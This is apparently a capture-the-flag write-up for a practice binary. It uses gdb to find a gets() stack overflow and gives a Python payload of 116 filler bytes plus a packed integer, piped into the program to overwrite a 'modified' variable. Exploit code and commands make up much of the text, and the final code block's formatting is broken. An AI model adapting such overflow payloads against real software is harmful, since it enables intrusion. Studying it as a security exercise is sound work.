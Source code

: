 ## ex00

### Objective
The goal of this challenge is to change the `modified` variable and see the success message "you have changed the 'modified' variable".

### Steps Taken

1. **Initial Analysis**:
    - Used `file` to determine the type of the binary.
    - Used `strings` to identify useful strings within the binary.

    ```sh
    file bin
    strings bin
    ```

2. **Disassembly**:
    - Used `gdb` to disassemble the binary and identify the `gets` function call, which is vulnerable to buffer overflow.

    ```sh
    gdb bin
    ```

3. **Debugging with GDB**:
    - Set breakpoints and inspected the stack to determine the buffer size and the location of the `modified` variable.

    ```sh
    break main
    run
    info registers
    x/32x $esp
    ```

4. **Crafting the Payload**:
    - Used a Python script to craft a payload that overflows the buffer and modifies the `modified` variable.

    ```python
    import struct

    buffer_size = 116
    new_value = 1

    payload = b'A' * buffer_size
    payload += struct.pack("<I", new_value)

    # Print the payload
    print(payload.decode('latin-1'))
    ```

5. **Execution**:
    - Provided the payload to the binary to achieve the objective.

    ```sh
    echo -e $(python -c 'import struct; buffer_size = 116; new_value = 1; payload = b"A" * buffer_size + struct.pack("<I", new_value); print(payload.decode("latin-1"))') | ./bin
    ```

### Tools Used
- `file`
- `strings`
- `gdb`
- Python

### Educational Purpose
These methods and tools are used strictly for educational purposes to understand and protect against similar vulnerabilities. 

### Script
Include the Python script used to generate the payload:

```python
import struct
```

buffer_size = 116
new_value = 1

payload = b'A' * buffer_size
payload += struct.pack("<I", new_value)

# Print the payload
print(payload.decode('latin-1'))

